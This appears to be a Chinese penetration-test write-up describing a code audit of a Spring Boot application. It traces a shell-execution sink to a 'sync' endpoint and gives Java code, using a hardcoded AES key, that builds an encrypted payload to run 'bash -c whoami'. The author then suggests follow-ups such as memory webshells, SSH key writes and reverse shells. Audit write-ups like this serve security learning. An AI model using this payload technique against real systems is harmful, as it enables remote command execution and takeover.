# 记一次实战快速的代码审计 - 先知社区

记一次实战快速的代码审计

- - -

# 0x00 前记

最近的一次渗透项目中，获取到某系统的源码和系统管理员登录密码

[](https://xzfile.aliyuncs.com/media/upload/picture/20231129152630-9dc17b78-8e88-1.png)

# 0x01 快速审计

## 代码执行 1

通过项目结构，发现用的技术还是比较新的，整体架构是springboot+mybatis，fastjson等版本也是比较新，因为涉及到了公式计算、数据分析，所以还用到了Scala，个人对Scala语言只是简单的使用过，暂时略过

[](https://xzfile.aliyuncs.com/media/upload/picture/20231129152820-df370582-8e88-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231129154755-9bc34768-8e8b-1.png)

根据审OA漏洞的经验，猜测公式计算可能存在漏洞，找到对应的接口，这里有个FlowScriptCompiler.getClass�(className�)，通过上下代码，发现还是挺麻烦的，首先需要先上传脚本规则文件，然后进行编译，最后再execute执行

这里尝试新增规则脚本，虽然后台返回成功信息，但是最后execute失败了，需要真实环境调试看看吧，暂时先不看这个点

[](https://xzfile.aliyuncs.com/media/upload/picture/20231129152924-058822ca-8e89-1.png)

## 代码执行 2

通过全局搜索污点函数，发现存在ProcessBuilder命令执行的点�，这里可以执行命令，然后将结果使用convertStreamToStr方法�返回，可能可以造成回显RCE

[](https://xzfile.aliyuncs.com/media/upload/picture/20231129153007-1eeb1402-8e89-1.png)  
往前搜索execute�方法，发现有三处地方使用到了  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231129153034-2f3354aa-8e89-1.png)

第一处：先看这个/src/main/java/com/xxrule/flowrule/arch/EnvChecker.java#\_check，这里的方法，codeStr不可控  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231129153152-5d47d672-8e89-1.png)

第二处：/src/main/java/com/xxrule/flowrule/utils/ProcessUtil.java#main，测试方法，同样不可控�  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231129153224-708561c8-8e89-1.png)

剩下就只有/src/main/java/com/xxrule/data/service/impl/DepotSynchroServiceImpl.java

sync方法�接受一个DepotSynchroDto对象，然后使用DataStrUtil.deCryptAndDecode��（代码在下图）解密data数据，解密首先会使用base64进行解码，然后使用AES再解一次得到data对象

data对象用fastjson转成JSONObject的对象，然后判断�JSONObject是否存在sh的key，如果存在，继续解析sh对象下面的shells数组，最后使用�ProcessUtil.execute(sh, charset);�执行shell  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231129153330-9807738a-8e89-1.png)

deCryptAndDecode方法代码

[](https://xzfile.aliyuncs.com/media/upload/picture/20231129153354-a5efe932-8e89-1.png)

实现类基本分析完了，我们继续搜索调用sync方法，发现有两处controller接口使用到这个方法

[](https://xzfile.aliyuncs.com/media/upload/picture/20231129153406-ad9da9b2-8e89-1.png)

第一处：/src/main/java/com/xxxrule/data/controller/DepotSynchroContorller.java#sync

[](https://xzfile.aliyuncs.com/media/upload/picture/20231129153439-c1238344-8e89-1.png)

第二处：/src/main/java/com/xxxrule/flowrule/controller/RuleSceneController.java#params

[](https://xzfile.aliyuncs.com/media/upload/picture/20231129153504-cfbe8cdc-8e89-1.png)

这两个地方都可以RCE，相对来说，sync接口没有那么多的条件判断，可以直接构造请求对象，写一个代码生成payload

```plain
import org.apache.commons.codec.binary.Base64;

import javax.crypto.Cipher;
import javax.crypto.KeyGenerator;
import javax.crypto.SecretKey;
import java.security.SecureRandom;

public class Test {
    public static void main(String[] args) throws Exception {


        //生成shell执行命令加密数据
        byte[] sourceBytes = enCryptAndEncode("{\n" +
                "  \"sh\": {\n" +
                "    \"shells\": [\n" +
                "      \"bash\",\n" +
                "      \"-c\",\n" +
                "      \"whoami \"\n" +
                "    ]\n" +
                "  },\n" +
                "  \"charset\": \"utf-8\"\n" +
                "}");
        System.out.println(Base64.encodeBase64String(sourceBytes));


        //解密数据包
        System.out.println((deCryptAndDecode("")));

    }

    /**
     * AES加密
     *
     * @param content
     * @return
     * @throws Exception
     */
    public static byte[] enCryptAndEncode(String content) throws Exception {
        String strKey = "mysecuritykey";
        KeyGenerator keyGenerator = KeyGenerator.getInstance("AES");
        SecureRandom random = SecureRandom.getInstance("SHA1PRNG");
        random.setSeed(strKey.getBytes());
        keyGenerator.init(128, random);

        SecretKey desKey = keyGenerator.generateKey();
        Cipher cipher = Cipher.getInstance("AES");
        cipher.init(Cipher.ENCRYPT_MODE, desKey);
        return cipher.doFinal(content.getBytes("UTF-8"));
    }

    public static String deCryptAndDecode(String content) {
        byte[] targetBytes = Base64.decodeBase64(content);
        try {
            return deCryptAndDecode(targetBytes);
        } catch (Exception e) {
            return "";
        }
    }


    /**
     * AES解密
     *
     * @param src
     * @return
     * @throws Exception
     */
    public static String deCryptAndDecode(byte[] src) throws Exception {
        String strKey = "mysecuritykey";
        KeyGenerator keyGenerator = KeyGenerator.getInstance("AES");
        SecureRandom random = SecureRandom.getInstance("SHA1PRNG");
        random.setSeed(strKey.getBytes());
        keyGenerator.init(128, random);

        SecretKey desKey = keyGenerator.generateKey();
        Cipher cipher = Cipher.getInstance("AES");
        cipher.init(Cipher.DECRYPT_MODE, desKey);
        byte[] cByte = cipher.doFinal(src);
        return new String(cByte, "UTF-8");
    }
}
```

生成执行whomai命令的数据：ZOxX3QMOwuTSJlkTz5LWdF3Yb0ZFvIXFVb/Iqr5Eu9ysyYwlD/DokMU8g09jfQL0KsPIxO3HlF9SiOSTaVyCPsmIq7eJ7YGOTj9kvYnjFz235gn1jBu7WdC5Tb4wtrsNAXTzc1nZZv1xh0sTGlQgcg==

发送对应的数据包，返回的data是lBBVygQE6Te6euV1IGk/5WLTeEY4WW3o7LGCpYlGO8o=

[](https://xzfile.aliyuncs.com/media/upload/picture/20231129154410-1566c6d6-8e8b-1.png)

可以通过解密方法进行解密，返回数据是root，因为是SpringBoot项目，后续可以注入内存马、写ssh key、反弹shell等

[](https://xzfile.aliyuncs.com/media/upload/picture/20231129153710-1b2de820-8e8a-1.png)

# 0x02 总结

1.  在项目时间短、任务重的情况下，代码审计还是得有耐心，不能放过每一个sink点，可以充分利用代码审计自动化工具，提升审计效率
2.  通过前端界面可以快速熟悉了解系统的功能特性，利用审计经验，可以猜测某些功能点可能存在漏洞
3.  一些行业会有到数据分析的业务需求，往往会使用Spark框架�、Scala语言、R语言...等进行数据处理，这一块可以尝试学习
